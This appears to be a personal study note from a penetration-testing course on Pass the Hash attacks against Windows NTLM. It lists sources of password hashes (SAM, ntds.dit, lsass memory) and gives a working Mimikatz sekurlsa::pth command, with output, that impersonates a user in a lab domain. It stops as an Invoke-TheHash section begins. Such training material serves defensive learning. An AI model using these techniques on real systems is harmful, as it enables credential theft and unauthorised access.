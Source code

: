 - This technique is when an attacker, instead of using a regular password, they provide a password hash of the plain text password for authentication. 

- Some of the ways that we can obtain these hashes are through the following techniques that we have gone over in the past:
	- Dumping the local SAM database from a compromised host.
	- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
	- Pulling the hashes from memory (lsass.exe).
## Intro to Windows NTLM (New Technology LAN Manager)

- Set of security policies that authenticate users' identities while also protecting the integrity and confidentiality of their data. 
- NTLM is Single Sign On (SSO)
- With NTLM, passwords stored on the server and domain controller are not "salted" which means that an adversary with a password hash can authenticate a session without knowing the original password. **This is what we call a Pass the Hash Attack **

## Pass the Hash with Mimikatz (Windows)
- We are going to be using the module sekurlsa::pth which allows us to perform a pass the hash attack. 
- The following are parameters that we must know prior to running the module: 
	- `/user` - The user name we want to impersonate.
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
	- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).


```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
  |  PID  8404
  |  TID  4268
  |  LSA Process was already R/W
  |  LUID 0 ; 5218172 (00000000:004f9f7c)
  \_ msv1_0   - data copy @ 0000028FC91AB510 : OK !
  \_ kerberos - data copy @ 0000028FC964F288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000028FC9673AE8 (32) -> null
```


![[Pasted image 20251028212916.png]]

## Pass the Hash with PowerShell Invoke-TheHash (Windows)

- Another tool that we can use is Invoke-TheHash. 